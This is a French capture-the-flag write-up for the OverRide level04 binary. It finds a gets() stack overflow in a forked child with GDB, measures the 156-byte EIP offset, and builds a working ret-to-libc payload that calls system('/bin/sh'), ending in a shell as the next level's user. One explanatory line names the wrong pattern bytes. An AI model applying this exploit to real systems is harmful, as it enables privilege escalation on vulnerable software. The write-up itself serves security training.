 ## Solution

```
python -c'print("a" * 156 + "\xd0\xae\xe6\xf7" + "----" + "\xec\x97\xf8\xf7")'
```

Le programme effectue un fork(), puis utilise la fonction non sécurisée gets() dans le processus enfant, ce qui permet un débordement de tampon (buffer overflow) et potentiellement un segfault.

-   Lancez GDB sur le programme vulnérable. Configurez GDB pour suivre les processus enfants avec la commande suivante :
```
    gdb ./level04
    (gdb) set follow-fork-mode child
```
-   Lancez le programme pour qu'il demande une entrée (qui sera capturée par gets()). Utilisez un padding spécifique pour provoquer un débordement :

    bash
```
(gdb) run
Starting program: /home/users/level04/level04
[New process <pid>]
Give me some shellcode, k
```
Envoyez le padding suivant :
```
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
```
-   Après avoir envoyé le padding, un segfault se produit :
```
    Program received signal SIGSEGV, Segmentation fault.
    [Switching to process <child_pid>]
    0x41326641 in ?? ()
```

Cela signifie que le pointeur d'instruction (EIP) a été corrompu et contient une partie du padding.

-   Vérifiez l'état des registres pour confirmer l'atteinte du EIP avec une partie du padding :
```
    (gdb) info register
    eax            0x0	0
    ecx            0xf7fd08c4	-134412092
    edx            0xffffd670	-10640
    ebx            0x41386541	1094214977
    esp            0xffffd710	0xffffd710
    ebp            0x31664130	0x31664130
    esi            0x0	0
    edi            0x66413965	1715550565
    eip            0x41326641	0x41326641
    eflags         0x10282	[ SF IF RF ]
    cs             0x23	35
    ss             0x2b	43
    ds             0x2b	43
    es             0x2b	43
    fs             0x0	0
    gs             0x63	99
```
    
Ici, le registre EIP contient 0x41326641, qui correspond à une partie du padding **(Aa2A)**.

-   Le fait que le registre EIP ait été corrompu indique qu'il est possible de rediriger le flux d'exécution du programme.
-   Utilisez cette vulnérabilité pour mettre en place une attaque ret-to-libc, en choisissant des adresses appropriées dans la mémoire pour appeler des fonctions telles que system() avec des arguments contrôlés (par exemple /bin/sh).

### Payload

```
(gdb) p &system
$1 = (<text variable, no debug info> *) 0xf7e6aed0 <system>

(gdb) find &system,+9999999,"/bin/sh"
0xf7f897ec
```

**41326641 -> Reverse = 41663241 -> to Ascii = Af2A -> Offset = 156**

```
level04@OverRide:~$ python -c'print("a" * 156 + "\xd0\xae\xe6\xf7" + "----" + "\xec\x97\xf8\xf7")' > /tmp/lvl4 
level04@OverRide:~$ cat /tmp/lvl4 - | ./level4
bash: ./level4: No such file or directory
level04@OverRide:~$ cat /tmp/lvl4 - | ./level04
Give me some shellcode, k
whoami
level05
```